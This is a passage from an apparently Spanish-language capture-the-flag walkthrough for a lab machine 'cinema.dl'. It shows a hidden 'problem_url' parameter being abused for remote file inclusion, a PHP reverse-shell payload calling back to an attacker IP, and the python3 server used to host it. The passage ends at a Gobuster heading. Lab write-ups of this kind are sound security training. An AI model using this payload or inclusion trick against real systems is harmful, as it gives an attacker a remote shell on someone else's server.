 Lo guardamos y ahora entramos con dicho dominio:

```
URL = http://cinema.dl/
```

Vemos que nos carga una pagina como si fuera una cartelera de cine y la unica pelicula a la que podemos entrar es a la llamada `El tiempo que tenemos`, dentro del mismo podremos ver que podemos como reservar entradas, las cuales si le damos a reservar nos lleva a un `reservation.php`, vamos a ver que hace de forma intenta con la peticion de reserva capturandolo con `BurpSuite`.

<figure><img src="../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un parametro oculto llamado `problem_url=` el cual indica como una `URL` por defecto como si pudieramos hacer algo desde un servidor externo, por lo que vamos a probar a abrir un servidor de `python3` con una `shell.php` que vamos a crear y añadirlo en ese parametro a ver que pasa.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Abriremos un servidor de `python3`:

```shell
python3 -m http.server
```

Y ahora en la pagina iremos a la siguiente `URL` ya que sabemos que parametro usar.

```
URL = http://cinema.dl/reservation.php?problem_url=http://<IP>:8000/shell.php
```

Si nos vamos a donde tenemos el servidor de `python3` veremos que nos ha cogido el archivo:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.3 - - [16/Jan/2025 06:18:16] "GET /shell.php HTTP/1.1" 200 -
```

Pero no tenemos ninguna carpeta de `uploads/` ni nada parecido, por lo que vamos a probar hacer un `fuzzing` con un diccionario personalizado sobre el nombre y apellidos de los actores de la pelicula `El tiempo que tenemos` quedando de la siguiente forma:

## Gobuster
